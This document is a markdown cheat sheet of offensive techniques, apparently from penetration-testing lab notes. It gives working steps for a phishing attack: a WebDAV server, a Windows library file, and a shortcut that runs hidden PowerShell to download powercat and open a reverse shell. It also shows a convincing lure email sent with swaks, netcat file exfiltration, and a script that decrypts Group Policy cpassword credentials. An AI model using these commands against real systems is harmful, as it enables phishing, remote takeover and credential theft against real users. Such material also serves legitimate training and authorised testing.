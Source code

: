 # 🔹Phishing 

### 1) Enable /webdav Server
```
python3 -m venv myenv
source myenv/bin/activate
pip3 install wsgidav
pip3 install cheroot
mkdir webdav
sudo wsgidav --host=0.0.0.0 --port=80 --auth=anonymous --root webdav/
```
### 2) Create 'config.Library.ms'
```
<?xml version="1.0" encoding="UTF-8"?>
<libraryDescription xmlns="http://schemas.microsoft.com/windows/2009/library">
<name>@windows.storage.dll,-34582</name>
<version>6</version>
<isLibraryPinned>true</isLibraryPinned>
<iconReference>imageres.dll,-1003</iconReference>
<templateInfo>
<folderType>{7d49d726-3c21-4f05-99aa-fdc2c9474656}</folderType>
</templateInfo>
<searchConnectorDescriptionList>
<searchConnectorDescription>
<isDefaultSaveLocation>true</isDefaultSaveLocation>
<isSupported>false</isSupported>
<simpleLocation>
<url>http://192.168.45.239</url>
</simpleLocation>
</searchConnectorDescription>
</searchConnectorDescriptionList>
</libraryDescription>
```
### 3) Create lnk file (in WINDOWS) with PS payload (powercat)
```
C:\Windows\System32\WindowsPowerShell\v1.0\powershell.exe -w hidden -ep bypass -c "IEX(New-Object System.Net.WebClient).DownloadString('http://192.168.45.155/powercat.ps1');powercat -c 192.168.45.155 -p 443 -e powershell"

# Powercat
https://github.com/besimorhino/powercat/blob/master/powercat.ps1
```
### 4) Staging 
- Place `powercat.ps1`, `shortcut.lnk`, `config.Library.ms` & `body.txt` in **/Webdav**
- nc -lnvp 1337 (from **/WebDav** to get `powercat.ps1`) <-- this is wrong
- nc -lnvp 443 (to catch reverse shell when .lnk gets clicked)
- `body.txt` has to sound convincing
```
 Hi,

 please click on the attachment
```
### 5) Execution (require mail credentials)

> jim@relia -> has to be legit recipient
```
swaks -t jim@relia.com --from test@relia.com --attach @config.Library-ms --server 192.168.186.189 --body @body.txt --header "Subject: Staging Script" --suppress-data -ap
```

# 🔹Transfer files (Windows to Linux)
```
# Windows TO
PS C:\temp> cmd /c "nc64.exe 192.168.174.245 4444 < C:\Scheduler\scheduler.exe"

# Linux
nc -lnvp 4444 > scheduler.exe
```


# 🔹Groups.xml
`Groups.xml` Likely in found `SYSVOL` folder, or `machines/preferences/group` or `/preferences/group`
```
<?xml version="1.0" encoding="utf-8"?>
<Groups clsid="{3125E937-EB16-4b4c-9934-544FC6D24D26}"><User clsid="{DF5F1855-51E5-4d24-8B1A-D9BDE98BA1D1}" name="active.htb\SVC_TGS" image="2" changed="2018-07-18 20:46:06" uid="{EF57DA28-5F69-4530-A59E-AAB58578219D}"><Properties action="U" newName="" fullName="" description="" cpassword="edBSHOwhZLTjt/QS9FeIcJ83mjWA98gw9guKOhJOdcqh+ZGMeXOsQbCpZ3xUjTLfCuNH8pG5aSVYdYw/NglVmQ" changeLogon="0" noChange="1" neverExpires="1" acctDisabled="0" userName="active.htb\SVC_TGS"/></User>
</Groups>
```
We can crack the cpassword with the following python script `ggp-decrypt.py`
```
#!/usr/bin/env python3

from Crypto.Cipher import AES
from Crypto.Util.Padding import unpad
import base64

if __name__ == "__main__":
    key = b"\x4e\x99\x06\xe8\xfc\xb6\x6c\xc9\xfa\xf4\x93\x10\x62\x0f\xfe\xe8\xf4\x96\xe8\x06\xcc\x05\x79\x90\x20\x9b\x09\xa4\x33\xb6\x6c\x1b"
    iv = b"\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0"
    cipher = AES.new(key, AES.MODE_CBC, iv)

    # CHANGE THIS CIPHER TEXT
    ciphertext = "edBSHOwhZLTjt/QS9FeIcJ83mjWA98gw9guKOhJOdcqh+ZGMeXOsQbCpZ3xUjTLfCuNH8pG5aSVYdYw/NglVmQ=="
    ciphertext = base64.b64decode(ciphertext)

    plaintext = cipher.decrypt(ciphertext)
    plaintext = unpad(plaintext, AES.block_size)

    print(plaintext.decode())
```
To use the script do the following
```
python3 -m venv venv
. venv/bin/activate
pip3 install pycryptodome
python3 gpp-decrypt.py
```
